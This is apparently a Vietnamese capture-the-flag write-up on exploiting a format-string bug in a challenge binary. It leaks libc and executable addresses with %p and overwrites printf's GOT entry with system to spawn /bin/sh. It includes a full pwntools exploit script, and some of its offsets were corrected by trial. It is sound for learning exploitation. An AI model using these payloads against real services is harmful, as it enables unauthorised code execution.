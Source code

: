 # IDA
Chương trình thực hiện nhập payload và ta để ý ở đây có lỗi FMT, nên ta có thể thay đổi got@printf thành system.
![image](https://user-images.githubusercontent.com/111769169/221399839-70442642-081e-4e39-a173-0d2b6c256df2.png)  
Đầu tiên ta cần leak được libc để tìm địa chỉ base  
Ở đây ta chú ý sẽ lấy libc ```0x007fffffffde78│+0x00f8: 0x007ffff7dbdd90  →  <__libc_start_call_main+128> mov edi, eax``` nên ta sẽ sử dụng %p để leak địa chỉ  
```python
#################
### Leak libc ###
#################
payload1 = b"%37$p"
r.sendlineafter(b">> ", b'1')
r.sendafter(b"payload: ", payload1)
r.recvuntil(b"submitted\n")
leak_libc = int(r.recvuntil(b"1. Submit", drop=True), 16)
libc.address = leak_libc - 0x1d90 - 0x28000
log.info("leak libc " + hex(leak_libc))
log.info("base " + hex(libc.address))
```
> Ở đây em kiểm tra lại địa chỉ system của chương trình ``` 0x7fcf79b90d60 ``` và địa chỉ sau khi tính toán ``` system 0x7fcf79bb8d60 ```  
> em thấy không giống nhau nên em đoán địa chỉ base của em tính sai nên em sẽ tính offset của system chương trình và địa chỉ system em tính là ``` 0x28000 ```
___
Tiếp theo ta sẽ leak địa chỉ exe để tìm base exe
Thì ta chọn địa chỉ nằm ``` 0x007fffffffde58│+0x00d8: 0x0000000040142b ``` vẫn dùng %p để leak và tính ra địa chỉ base exe
```python
### Leak exe ###
r.sendlineafter(b">> ", b"1")
payload2 = b"%33$p"
r.sendafter(b"payload: ", payload2)
r.recvuntil(b"submitted\n")
leak_exe = int(r.recvuntil(b"1. Submit", drop=True), 16)
exe.address = leak_exe - 0x42b
log.info("leak exe " + hex(leak_exe))
log.info("base exe " + hex(exe.address))
```
> tuy nhiên khi em chạy chương trình thì thấy địa chỉ printf@got của chương trình ```0x404040 printf@GLIBC_2.2.5``` và địa chỉ em tính ```0x00000000406040``` vẫn khác nhau do đó em lại tính offset ```-0x2000```
___
Tiếp đến ta sẽ OW GOT của printf
ở đây ta thấy sự khác biết của địa chỉ giữa GOT của printf ```printf@GLIBC_2.2.5  →  0x7ffff7df4770``` và địa chỉ hàm system ```0x7ffff7de4d60 <libc_system>```
khác biệt 3byte nên ta sẽ ghi đè 3 byte của printf

```python
part1 = (libc.sym['system']) & 0xff
part2 = (libc.sym['system']) >> 8 & 0xffff
log.info("system " + hex(libc.sym['system']))

payload3 = f'%{part1}c%10$hhn'.encode()
payload3 += f'%{part2 - part1}c%11$hn'.encode()
payload3 = payload3.ljust(0x20, b'A')
payload3 += p64(exe.got['printf'])
payload3 += p64(exe.got['printf']+1)

r.sendlineafter(b">> ", b"1")
r.sendafter(b"payload: ", payload3)

r.interactive()
```
> %hhn là ghi 1byte, %hn là 2byte, ta nên ghi đè 1 byte trước rồi mới ghi đè 2byte tiếp theo
___
Đến đây ta sẽ nhập ta chuỗi /bin/sh, có thể dùng script hoặc nhập tay =))
<details> <summary> script </summary>

  ```python
from pwn import *

r = process("./chall_patched")
exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
gdb.attach(r, gdbscript='''
b* payload+105
c           
           ''')
input()

### Leak libc ###
payload1 = b"%37$p"
r.sendlineafter(b">> ", b'1')
r.sendafter(b"payload: ", payload1)
r.recvuntil(b"submitted\n")
leak_libc = int(r.recvuntil(b"1. Submit", drop=True), 16)
libc.address = leak_libc - 0x1d90 - 0x28000
log.info("leak libc " + hex(leak_libc))
log.info("base " + hex(libc.address))

### Leak exe ###
r.sendlineafter(b">> ", b"1")
payload2 = b"%33$p"
r.sendafter(b"payload: ", payload2)
r.recvuntil(b"submitted\n")
leak_exe = int(r.recvuntil(b"1. Submit", drop=True), 16)
exe.address = leak_exe - 0x42b - 0x2000
log.info("leak exe " + hex(leak_exe))

### OW GOT ###
part1 = (libc.sym['system']) & 0xff
part2 = (libc.sym['system']) >> 8 & 0xffff
log.info("system " + hex(libc.sym['system']))

payload3 = f'%{part1}c%10$hhn'.encode()
payload3 += f'%{part2 - part1}c%11$hn'.encode()
payload3 = payload3.ljust(0x20, b'A')
payload3 += p64(exe.got['printf'])
payload3 += p64(exe.got['printf']+1)

r.sendlineafter(b">> ", b"1")
r.sendafter(b"payload: ", payload3)

r.interactive()
```
  
  ![image](https://user-images.githubusercontent.com/111769169/221409669-3bc13aef-a975-4bb3-80a2-0a1a981c99da.png)

  
</details>
